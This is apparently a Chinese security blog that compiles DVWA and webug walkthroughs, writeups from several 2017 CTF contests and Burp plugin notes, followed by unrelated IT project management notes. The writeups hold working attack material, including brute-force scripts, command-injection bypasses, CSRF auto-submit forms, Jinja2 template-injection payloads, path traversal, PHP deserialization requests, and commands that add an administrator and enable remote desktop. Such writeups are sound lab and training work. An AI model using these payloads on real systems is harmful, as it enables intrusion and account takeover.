



DVWA writeup
Damn Vulnerable Web Application
暴力破解 Brute Force
重复猜密码（账号）
条件：1
2
3弱密码。英文中的词、家的名字、过于简短的密码(6-7位)、可预测的模式
验证过程没有难以绕过的验证码
没有尝试多次后封IP地址等
low：
直接获取参数拼接到sql语句中去了，然后sql注入的话，直接上sqlmap。
暴力破解，burpsuite抓包，发送到repeater，发现没有别的验证，直接可以暴力破解密码。
错误时有提示”Username and/or password incorrect”
尝试暴力破解admin账号的密码。
medium：
添加了mysqli_real_escape_string函数1
2
3mysqli_real_escape_string转义字符串中的特殊字符：
编码的字符是 NUL（ASCII 0）、\n、\r、\、'、" 和 Control-Z
如： ' 变成 \'
但是还是可以注入。
然后，增加了sleep(2)延时来一定程度上抑制暴力破解，但是其实是没有用的。
high:
添加了checkToken，burpsuite添加自动获取user_token比较麻烦，直接写个简单的python脚本1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21#-*- coding: UTF-8 -*-
import requests
def read_token(html):
l = html.find("name='user_token")+25
print(l)
return html[l:l+32]
url="http://hack.com/DVWA/vulnerabilities/brute/index.php?username=admin&password=%s&Login=Login&user_token=%s"
passwords = ['t','admin','123456','password','test']
token = 'd6892bec17f92ebb73c5a57825c355e9'
for p in passwords:
print(p)
r = requests.get(url=url%(p,token),cookies={'security':'high', 'PHPSESSID':'lu4qnvvftqnpjc4a2hf674juo2'},headers={'Referer':'http://hack.com/DVWA/vulnerabilities/brute/index.php'})
#print(r.text)
#file = open(p+'.html','w')
#file.write(r.text)
#file.close
s = r.text
if s.find('Username and/or password incorrect.') == -1:
print('------Got it!!!')
token = read_token(s)
print(token)
还是可以sqlmap注入，可能需要burpsuite的Macro配合下，但是貌似不用都行。。。
impossible:
添加stripslashes函数去除反斜杠，难道是防止宽字节注入，然后，sql语句是用了预编译，断绝了注入的想法，密码错了数次后上锁，暴力破解绝望。
命令注入 Command Injection
对用户数据过滤不严格导致的，可以通过构造特殊的数据进行攻击。可以直接用&&和;来执行多条命令。1
2
3
4
5&&
;
||
&
|
low：
后台没有进行任何过滤，直接127.0.0.1&&dir就可以注入。&&或;
medium：
后台将&&和;替换为空，可以用||
high:
进行了更多的替换，然而，审视黑名单发现，将’| ‘替换为空，|后面有一个空格，所以，我们直接构造127.0.0.1 |dir 注意 |和dir之间没有空格即可。
impossible:
检验了保证IP地址都是数字，已经不能注入了。
CSRF
跨站点请求伪造
当登陆等后，会生成一个会话，此时，可以通过会话验证登录的身份。
low:
没有进行任何验证，可以伪造网址发给朋友1
2<img src=mm.jpg>
<iframe src="http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=abc&password_conf=abc&Change=Change#" frameborder="0" ;0" />
或者1
<iframe src="http://192.168.153.130/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
medium：
stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。
检查HTTP_REFERER中是否包含SERVER_NAME直接将用于欺骗的网站的URL中包含有SERVER_NAME
如127.0.0.1.html
high:
采用了User_token来验证。
可以尝试利用1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19<script type="text/javascript">
function attack()
{
document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
document.getElementById("transfer").submit();
}
</script>
<iframe src="http://192.168.153.130/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>
<body onload="attack()">
<form method="GET" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/csrf">
<input type="hidden" name="password_new" value="password">
<input type="hidden" name="password_conf" value="password">
<input type="hidden" name="user_token" value="">
<input type="hidden" name="Change" value="Change">
</form>
</body>
impossible:
需要输入当前密码才可以改密码。
文件包含 File Inclusion
包含的文件无论文件后缀名是否为php，都会尝试当作php，如果真的不是，则打印文件内容。
所以，可能到时文件读取和代码执行。
low：
没有任何过滤。
medium：1
2‘http://’ 替换为’https://'\
‘../‘、’..\”‘ 替换为 空
high：
文件名需要符合file*或include.php
impossible：
白名单，没法子了。
文件上传 File Upload
能够上传上去
能够执行
low:
直接上传一句话
medium:
上传的文件名限定了
high:
需要配合文件包含
impossible:
不安全的验证 Insecure CAPTCHA
验证过程中的逻辑漏洞。
SQL 注入 SQL Injection
low:
什么都没有检测、过滤
medium：1
mysqli_real_escape_string
依旧注入、
high：
impossible：
POD
SQL盲注 SQL Injection (Blind)
sqlmap
Weak Session IDs
XSS (DOM)
反射型XSS (Reflected)
储存型XSS (Stored)
webug3.0 writeup
渗透基础
第一关:很简单的一个注入
普通的GET注入
的确简单，丢个单引号就报错了，union注入
1 | python .\sqlmap.py -u "http://192.168.193.128/pentest/test/sqli/sqltamp.php?gid=1&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2" --technique=U |
第二关:从图片中你能找到什么？
从图片中找到有用的信息
binwalk、foremost可以发现rar，内有123.txt文件写着密码123
然后没思路，后台看到flag应该为
flang{fa136c7c341a6e26}
加油
第三关:你看到了什么？
渗透网站的时候目录也很重要
DirBuster扫下目录
发现有这个目录
第四关:告诉你了flang是5位数
当遇到五位验证码的时候可以爆破
没有看到验证码。。。考虑应该是考查爆破验证码，题目没出好吧
第五关:一个优点小小的特殊的注入
头部的一个注入
看到头部注入就想到X-Forwarded-For 和 User-Agent
第六关:这关需要rmb购买哦
支付问题：用最少的钱去购买到一本书！
随便输入admin/admin进去发现登录失败跳转，但是看返回包，后面的内容居然还是出现了，
估计是后台只是设置了跳转，没有die，还会执行后面的内容
禁用跳转后
点击购买发现提示用户没登录
改下uid
成功用别人的钱买书了
可是题目说是”用最少的钱去购买到一本书”
改金额，金额改为0
第七关:越权
已有账号：tom 密码123456
并没有验证原密码，这直接修改即可越权
第八关:CSRF
管理员每天晚上十点上线
burpsuite生成CSRF POC
第九关:URL跳转
能不能从我到百度那边去？
额，需要提交参数url即可，怎么想到的呢！
第十关:文件下载
根据提示下载需要的文件
题目链接应该换成这个
很明显的任意文件读取，直接1
../../

各种读文件，有连接数据库的php文件，顺着可以找到config文件，读到数据库密码的。
第十一关:我和上一题有点像
boom，沙卡拉卡！
GET换成了POST
第十二关:我系统密码忘记了！
请帮我找回在D盘下。
直接上传webshell
菜刀连接，跳转到D盘出错了
新建一个用户
1
2# net user [username] [password] /add
net user systemis systemis /add添加到Administrators用户组
1
2# net localgroup Administrators [username] /add
net localgroup Administrators systemis /add开启3389
1
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
mstsc连接远程桌面
还是访问不到D盘，设备未就绪，应该是没插入光盘吧
第十三关:XSS
看看你能给我带来什么惊喜？
第十四关:存储型XSS
suprise！
GET 换成 POST一样
第十五关:什么？图片上传不了？
上传不了图片怎么办？
改1
Content-Type: image/png
得到1
http://192.168.85.128/pentest/test/11/upload/webshell0.php
第十六关:明天双十一
我从公司网络去剁手了！
想不到既需要host为10.10.10.10
又验证了referer是来自www.baidu.com
这里的设置真的不甚理解。
中级进阶
第一关:出来点东西吧
1 | ../../etc/passwd |
系统是windows，所以应该是1
../../../../../../../../../../WINDOWS/win.ini
因为是require_once，所以不能直接读index.php，这，不知应该怎么读了1
php://filter/read=convert.base64-encode/resource=../../../../../../../../../../WINDOWS/win.ini

第二关:提交方式是怎么样的啊？
pass !
一样
第三关:我还是一个注入
怎么又TM注入？
有一个header注入
第四关:APK里面有一个flag
看看apk
apktool 作用：资源文件获取，可以提取出图片文件和布局文件进行使用查看
1
2
3
4apktool d -f [apk文件 ] [输出文件夹]
apktool d -f test.apk test
重新打包成apk
apktool b testdex2jar 作用：将apk反编译成java源码（classes.dex转化成jar文件）
1
2
3
4windows
.\dex2jar-2.0\d2j-dex2jar.bat .\output\test\classes.dex
linux
dex2jar classes.dexjd-gui 作用：查看APK中classes.dex转化成出的jar文件，即源码文件
直接用这个工具打开classes-dex2jar.jar1
return new StringBuilder(String.valueOf(new StringBuilder(String.valueOf(Base64.decode("YWZlOGU5MWI=", "UTF-8"))).append(Base64.decode("NGM1NGFkOGVi", "UTF-8")).toString())).append(Base64.decode("MzA0M2UzNjY=", "UTF-8")).toString() + Base64.decode("ZGJjYTA1Zg==", "UTF-8");
看到代码了，base64-decode一下
afe8e91b4c54ad8eb4c54ad8eb3043e366dbca05f
第五关:时间注入
时间注入
时间盲注
实战练习:DZ论坛
注入
实战题~好像搭建的不怎么OK，先不做
实战练习:aspcms
注入
实战练习:phpmyadmin
任意文件包含漏洞
实战练习:齐博系统
SQL注入
实战练习:海盗云商
getshell
实战练习:PHP168 6.0
任意代码执行GET SHELL
实战练习:ecshop
/admin/shopinfo.php SQL注入
实战练习:ShopXp系统v3.x
SQL注射漏洞
实战练习:Dcore(轻型CMS系统)
注入漏洞
实战练习:MetInfo 5.1.7
任意文件包含漏洞可getshell
实战练习:Metinfo 5.3
news.php盲注
实战拓展
实战练习:Metinfo5.3
img.php盲注
实战练习:万众电子期刊在线阅读系统PHP和ASP
SQL注入
实战练习:BEESCMS
sql注入
实战练习:ourphpV1.3.1
注入
实战练习:phpwind
版本命令执行漏洞
实战练习:metinfo 5.1以下
任意用户密码修改
实战练习:DZ3.2
存储型跨站
实战练习:DedeCMS
flink.php友情链接注入
实战练习:DedeCms
recommend.php注入
实战练习:BEESCMS
注入
实战练习:海洋cms
头部注入
实战练习:CVE-2006-7243
php截断利用
实战练习:CVE-2013-3660
本地提权
实战练习:IIS 6.0
远程命令执行
实战练习:HFS
第三方软件提权
实战练习:MYsql
数据库提权
强网杯-ctf-2017
broken

Jsfuck
直接console中跑发现报错
后面加个]
看到最后面的()，应该是函数调用，去掉
who are you?

设置cookie
还是没有权限，从cookie入手，base64解码
thrfg怎么看都没意义，后来想到rot13
嗯，改guest为admin，rot13->base64

用post上传，指定filename和data。
尝试上传php木马，发现会检测左尖括号。
尝试绕过无果，后来想到检测左尖括号可能可以用数组绕过
直接给flag
phone number
逻辑就是注册账号包括手机号信息，登录，check有多少个具有相同手机号的账号。
看到check页面中，
admin的电话藏有大秘密。
尝试账号密码注入失败，结合题目，应该是通过手机号注入的。
提交一般字符串，提示
，后面发现提交0e科学计数法和0x的hex编码可以绕过，insert点在注册的手机号这里，
输出点在check页面，可以insert注入。

而且是union注入。

数据库名webdb

表名为user

发现没有返回列名，然后看到
原来长度有限制，简化下

得到列名id，username，phone，password
拿数据，得flag.
Musee de X
scimg.jb51.net/allimg/150811/14-150Q1142KAF.jpg
报错信息中发现有jinja2
直接搜索python SSTI找到
1 | {{''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()}} |

这水印输出字符长度有限制。
1 | {{''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59]}} |

找到catch_warnings类了
1 | {{''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59] .\_\_init\_\_.func\_globals['linecache'].\_\_dict\_\_['o'+'s'].\_\_dict\_\_['pop'+'en']('ls').read()}} |

发现flag文件，已经发现水印输出中过滤了一些字符，可以猜测flag文件名为flag_8d294abea9f0，额，不用猜直接flag*。1
{{''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59] .\_\_init\_\_.func\_globals['linecache'].\_\_dict\_\_['o'+'s'].\_\_dict\_\_['pop'+'en']('cat flag\_\*').read()}}

额，看不全，找张大图
http://pic1.win4000.com/wallpaper/d/58c0f570b231b.jpg
1
flag{06015a4f-8d29-4abe-a9f0-e1cb18911671}
gctf-ctf-2017
2017 首届全球华人网络安全技能大赛
热身题

检查了下robots.txt，
#
robots.txt for Topsec CTF
#
User-agent: *
Disallow: /caches
Disallow: /phpcms/config.txt
Disallow: /install
Disallow: /phpsso_server
Disallow: /api.txt
Disallow: /Admin.aspx
Disallow: /te1t.txt
Disallow: /dede
Disallow: /m3mber
Disallow: /setup
Disallow: /uping
Disallow: /templets
Disallow: /default
Disallow: /index.html
Disallow: /js.txt
Disallow: /login.php
Disallow: /rob0t.php
Disallow: /admin.php
Disallow: /1ndex.txt
Disallow: /freelist
Disallow: /html
Disallow: /include尝试直到发现/rob0t.php
———————–Congratulation!—————————
GCTF{ae609880185f1d75}
变态验证码
搜了一下几种绕验证码的方式，都试了一下，发现只要第一次输对了验证码，后面直接把验证码设为空串就行了，然后用Burp和他给的password.txt爆破一下就行了
Forbidden

查看网页源代码，发现注释
X-Forwarded-For:localhost
又发现提示了www.topsec.com
Host: www.topsec.com
Referer: http://www.baidu.com
模拟ajax请求头
X-Requested-With:XMLHttpRequest
User-Agent 添加
MSIE 4;
User-Agent 添加
.NET CLR 8;
修改下Accept-Language
Accept-Language: de-DE,de;
这里比较考脑洞了，看到response中有Set-Cookie : login=4e6a59324d545a6a4e7a4d324e513d3d
但是添加这个并没用。充分审题“没有登录”，又想不到什么办法，对login值进行decode

4e6a59324d545a6a4e7a4d324e513d3d ———ASCII2Hex—->
NjY2MTZjNzM2NQ== —————Base64——>
66616c7365 ————–ASCII2Hex->
false
false 改成 true，反过来encode，得“4e7a51334d6a63314e6a553d”，再提交即可得flag。
最终1
2
3
4
5
6
7
8
9
10
11GET / HTTP/1.1
Host: www.topsec.com
User-Agent: Mozilla/5.0 (X11; .NET CLR 8;MSIE 4; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: de-DE,de;q=0.5
Referer: http://www.baidu.com
X-Forwarded-For:localhost
X-Requested-With:XMLHttpRequest
Cookie: lang=english; 8760CE88=1;login=4e7a51334d6a63314e6a553d
Connection: close
Cache-Control: max-age=0
世安杯-ctf-2017
1. ctf 入门级题目
下源代码，发现可以利用ereg的00截断漏洞，burpsuite发送get请求/shian-rao/?password=1%00–

2. 曲奇饼
访问，一段不知名文字，然后发现网址/shian-quqi/index.php?line=&file=a2V5LnR4dA==
file参数明显base64加密过，base64解密为key.txt，然后我们修改为index.php，base64加密，加上line参数可以遍历index.php文件。得到源码
1 | <?php |
容易发现只要将file参数值改为thisis_flag.php的base64后的值，并且添加cookie

3. 类型
直接给了源码，通过php的弱类型漏洞绕过就好。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47 <?php
show_source(__FILE__);
$a=0;
$b=0;
$c=0;
$d=0;
if (isset($_GET['x1']))
{
$x1 = $_GET['x1'];
$x1=="1"?die("ha?"):NULL;
switch ($x1)
{
case 0:
case 1:
$a=1;
break;
}
}
$x2=(array)json_decode(@$_GET['x2']);
if(is_array($x2)){
is_numeric(@$x2["x21"])?die("ha?"):NULL;
if(@$x2["x21"]){
($x2["x21"]>2017)?$b=1:NULL;
}
if(is_array(@$x2["x22"])){
if(count($x2["x22"])!==2 OR !is_array($x2["x22"][0])) die("ha?");
$p = array_search("XIPU", $x2["x22"]);
$p===false?die("ha?"):NULL;
foreach($x2["x22"] as $key=>$val){
$val==="XIPU"?die("ha?"):NULL;
}
$c=1;
}
}
$x3 = $_GET['x3'];
if ($x3 != '15562') {
if (strstr($x3, 'XIPU')) {
if (substr(md5($x3),8,16) == substr(md5('15562'),8,16)) {
$d=1;
}
}
}
if($a && $b && $c && $d){
include "flag.php";
echo $flag;
}
?>
“==”弱类型，则x1=b，
“is_numeric“ 直接用2018bcd绕过，后面比较的时候转换为数值2018，得b1=1
“array_search“弱类型漏洞，”XIPU”字符串转数字为0，然后后面的“$var===’XIPU’”由于会检查类型，所以可以绕过
所以可以构造x2={“x21”:”2018a”,”x22”:[[0,1],0]}
后面的md5直接爆破即可，x3=XIPU18570

4. 登录
用户名默认了，密码看网页源代码有提示说为5位数字，验证码是非图片验证码，直接可以拿到
所以，爆破吧，生成一个00000-99999的字典，一个get拿到验证码，然后一个get测试一个密码，然后，建议开个多线程。
这里直接利用工具了，pkav HHTP Fuzzer
或者 脚本1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70#!/usr/bin/env python
# -*- coding:utf-8 -*-
import urllib, urllib2
import re
import threading
def get(begin):
right = 0
index = begin * 10000
while index < (begin + 1) * 10000:
URL = 'http://ctf1.shiyanbar.com/shian-s/index.php';
opener = urllib2.build_opener()
opener.addheaders.append(('Cookie', 'PHPSESSID=45cehecb1jv2jlsi591hv8l0m' + str(begin)))
try:
response = opener.open(URL)
except urllib2.HTTPError, e:
continue
data = response.read()
if re.search('服务器安全狗防护验证页面', data) != None:
continue
if re.search('<br><br>[0-9]*<br><br>', data) == None:
continue
rcode = re.search('<br><br>[0-9]*<br><br>', data).group()
rcode = rcode[8:11]
# print(index)
s = str(index)
if index < 10000:
s = s.zfill(5)
password = s
formdata = {'username': 'admin', 'password':password, 'randcode':rcode}
data_encoded = urllib.urlencode(formdata)
# req = urllib2.Request(URL, param)
URL += '?' + data_encoded
# print(URL)
# opener = urllib2.build_opener()
opener.addheaders.append(('Cookie', 'PHPSESSID=45cehecb1jv2jlsi591hv8l0m' + str(begin)))
try:
response1 = opener.open(URL)
status = response1.getcode()
# print(status == 200)
except urllib2.HTTPError, e:
continue
f1 = open('log' + str(begin) + '.txt', 'a')
f1.write(str(index) + "\n")
f1.close()
data1 = response1.read()
if re.search('服务器安全狗防护验证页面', data1) != None:
continue
# print(re.search('验证码错误', data1))
# print(right)
if status == 200 and re.search('密码错误', data1) == None and re.search('验证码错误', data1) == None and re.search('服务器安全狗防护验证页面', data1) == None:
if right == 0:
right = 1
index -= 1
# print('right' + str(index))
else:
print(index)
f = open('log.txt', 'a')
f.write(str(index))
f.write(data1)
f.close()
break
else:
right = 0
index += 1
# res = urllib2.urlopen
# get(0)
for i in xrange(10):
t =threading.Thread(target=get,args=(i,))
t.start()
5. admin
直接请求，
1 | you are not admin ! |
可以用php伪协议绕过，user=php://input，然后post的数据为the user is admin
然后，include部分也可以用PHP伪协议读取文件，file=php://filter/convert.base64-encode/resource=index.php

1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28<?php
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
echo "hello admin!<br>";
if(preg_match("/f1a9/",$file)){
exit();
}else{
include($file); //class.php
$pass = unserialize($pass);
echo $pass;
}
}else{
echo "you are not admin ! ";
}
?>
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
echo "hello admin!<br>";
include($file); //class.php
}else{
echo "you are not admin ! ";
}
-->
然后发现了class.php，也拿下来
1 | <?php |
看到提示读取f1a9.php
然后，看到__toString方法和$pass = unserialize($pass);，想到反序列化漏洞，构造如下1
2
3
4
5
6
7
8
9
10
11
12GET /shian-du/index.php?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";} HTTP/1.1
Host: ctf1.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: XDEBUG_SESSION=netbeans-xdebug; PHPSESSID=cko7epgroock0vgau9amiri4l5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 17
the user is admin

然后，就想尝试下这个任意文件读取有多大权限，试了下/etc/passwd发现可以读取1
2
3
4
5
6
7
8
9
10
11
12GET /shian-du/index.php?user=php://input&file=php://filter/convert.base64-encode/resource=../../../../../etc/passwd HTTP/1.1
Host: ctf1.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://src.shiyanbar.com/student/exam-second/seize-flag
Cookie: XDEBUG_SESSION=netbeans-xdebug; PHPSESSID=cko7epgroock0vgau9amiri4l5
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 17
the user is admin
然后，发现web都是在同一个服务器上面，尝试读取第一题的index.php看看，
发现可以，那么，原则上，通过这道题就可以直接kill掉所有的web题，具有较大危害（可惜前面的题目都自己已经做出来了）。
线下赛
渗透阶段
第一题：
考了后台弱口令，这。。。admin/MetInfo
你会发现过不了这个这题就废了
第二题：
phpmyadmin爆破弱口令这。。。root/abc123
第三题：
又是一个wooyun上的已知漏洞利用，额，这个是不给网的，跟现实有点脱离吧
攻防阶段
开始几分钟部分队伍未修改默认密码，考的是关于修改默认密码的知识吧，然而刚刚开始的时候服务器很卡很卡，自己都进不去，这。。。
Redis
和
Drupal
和
FFmpeg
的漏洞，嗯，这个的确是平时没有关注到
pwn2win-ctf-2017
Black Pentesting
Our agents found a BSC server which is used to contact one of the Corp’s sysadmins. We managed to get his IP (45.77.146.27), but we still haven’t found it’s domain. After obtaining the domain, we believe it’s possible to exploit their website somehow, and then obtain sensitive data. Use your old school pentesting skills and you will be rewarded!1
大意是给了IP 45.77.146.27，让你找域名，题目在那里，一直找到的是 45.77.146.27.vultr.com 这个域名，应该是bloodsuckers.world才对，所以，连题目都没看到，进去后是个留言框。
criminal
很容易通过报错显示出SQL语句1
SELECT c from solutions.bloodsuckers.models.Criminal c WHERE (c.name like :pName or :pNameLength = 0) and (c.age = :pAge or :pAge = 0) and (c.crime like :pCrime or :pCrimeLength = 0) order by xxx
且调用关系是应用程序拼接成HQL语句，HQL解析为postgresql后执行
order by处存在注入
一开始以为是postgresql注入
构造这样如下1
name=&age=&crime=&order=case when(ascii(substr((current_database()),1,1))=99) then age end desc, case when 1=1 then age end asc&submit=
可以获得一些信息，但是发现order by不能用子查询，postgresql是允许的，但是HQL不允许，所以不能到达。
其实这应该HQL注入
何为HQL注入？1
2对象关系映射（英语：Object Relational Mapping，简称ORM，或O/RM，或O/R mapping），是一种程序设计技术，用于实现面向对象编程语言里不同类型系统的数据之间的转换。从效果上说，它其实是创建了一个可在编程语言里使用的“虚拟对象数据库”
方便在关系数据库和类似于 Java， C# 等面向对象的编程语言中转换数据的技术

The nature of ORM injection is similar to SQL injection.


POJO=Plain Ordinary Java Object
https://github.com/0ang3el/HQLi-playground
Hibernate ORM
- Single Quote Escaping
对单引号转义的差异
- 在MySQL中，单引号[‘]转义为[\‘]
- 在HQL中，单引号[‘]转义为[‘]
1
2
3
4例如：
'abc\''or 1=(select 1)--'
对于HQL来说是字符串
对于MySQL来说，是字符串加注入的SQL语句

- $-Quoted Strings
这种方法对允许[\$\$aaa’bbb\$\$]这种方式表示字符串的DBMS有效1
2PostgreSQL
H2


Magic Functions
- 这种方法对能在字符串参数中执行SQL表达式的DBMS有效
1
2PostgreSQL
Oracle
- 这种方法对能在字符串参数中执行SQL表达式的DBMS有效
1 | PostgreSQL |

1 | Oracle 有內建函数DBMS_XMLGEN.getxml('SQL') |
- UNICODE
这种方法对于允许用Unicode字符作为分隔符的DBMS有用1
2mssql
H2
所以这里利用了
1 | $$ 在HQL中是变量名 |
构造，通过报错将flag显示出来1
SELECT c from solutions.bloodsuckers.models.Criminal c WHERE (c.name like :pName or :pNameLength = 0) and (c.age = :pAge or :pAge = 0) and (c.crime like :pCrime or :pCrimeLength = 0) order by case when (555=(select 0 from Criminal c where $$='$$= concat( chr(61),chr(39)) and (cast((select flag::text from flag) as integer)=2)) then 1 else 5 end --')) then 1 else 5 end desc
还有人用1
cast(cast(pg_read_binary_file('pg_xlog/000000010000000000000001')as text) as int)
看日志，这思路很强
Burp Suite插件开发
Burp Suite是一个用于攻击web应用程序的集成平台
我们来学习下如何编写插件增强Burp Suite的功能
开发步骤
Step 1 导出SDK包

Step 2 新建一个java项目，将刚刚导出的burp目录复制到src目录下，再创建一个包，里面放我们自己的代码

网上找了个代码，测试下
1 | package InformationGather; |
Step 3 导出jar包
1 | File->project stucture -> Artifacts->"+",选jar 选择from modules with dependencies，然后会有配置窗口出现，配置完成后，勾选Build on make >ok保存 |
参考
BurpSuite插件开发指南之 API 上篇
BurpSuite插件开发指南之 API 下篇
BurpSuite插件开发指南之Java篇
BurpSuite插件开发指南之 Python 篇
IT项目管理
项目属性
项目有一个特定的目的。所有的项目都要提供一个特定的产品、服务或成果。
项目具有临时性。项目有明确的开始和结束时间。
项目是通过不断完善细节而逐步开展的。项目一开始通常被定义得很宽泛，随时间流逝项目细节渐渐变得清晰。
项目需要来自不同领域的资源。资源包括人员、硬件、软件和其他。
项目需要有一个主要用户或项目发起人。他负责提供方向或资金。
项目具有不确定性。
项目约束
项目受范围、时间、成本三者约束，需要权衡。
什么是项目管理
项目管理指的是”在项目活动中运用专门的知识、技能、工具和技术，以满足项目需求。”
项目管理知识领域
项目范围管理确定和管理成功完成项目所要做的全部工作。
项目时间管理包括项目所需总时间的估算，编写一个可以接受的项目日程进度计划，并确保项目按时完工。
项目成本管理包括项目预算的制定和管理工作。
项目质量管理是确保项目满足立项所明示或暗示的而需求。
项目人力资源管理关注的是如何有效地利用参与项目的人员。
项目沟通管理包括产生、收集、发布和保存项目信息。
项目风险管理包括对项目相关的风险进行辨识、分析和应对。
项目采购管理是指根据项目的需要，从项目实施组织外部获取和购进产品和服务。
项目干系人管理包括识别和分析的需求，同时在整个项目生命周期内管理和控制他们的接触。
项目综合管理是一个首要的功能，影响所有其他知识领域，也被其他知识领域所影响。
项目管理工具和技术
| 知识领域 | 工具和技术 |
|---|---|
| 综合管理 | |
| 范围管理 | |
| 时间管理 | |
| 成本管理 | |
| 质量管理 | |
| 人力资源管理 | |
| 沟通管理 | |
| 风险管理 | |
| 采购管理 |
项目成功
项目达到了范围、时间和成本的目标。
项目使客户/项目发起人感到满意.
项目的结果达到了主要目标。
项目群
项目群是指一组相互联系的项目，宜使用协同方法进行管理来获得收益和进行控制，而这些是单独管理这些项目时不易获得的。
eg.
系统管理的三球模型
业务、组织、技术
组织的四个框架
- 组织框架
涉及组织是如何构建的(用组织图说明)，关注不同团队的角色和责任，以满足高层管理所设定的目标和政策。 - 人力资源框架
聚焦于提供组织需求和人员需求之间的协调。 - 政治框架
解决组织和个人政治的问题。组织中的政治表现为团体或者个体对于权利和领导地位的竞争。 - 符号框架
着重于符号和含义。组织结构


项目管理过程组
战略计划与项目选择
战略计划
通过分析组织的优势和劣势，研究在商业环境中的机会和威胁，预测未来的趋势，以及预测对新产品和新服务的需求来确定长期目标。
SWOT分析
优势、劣势、机会、威胁(可以用思维导图进行分析)
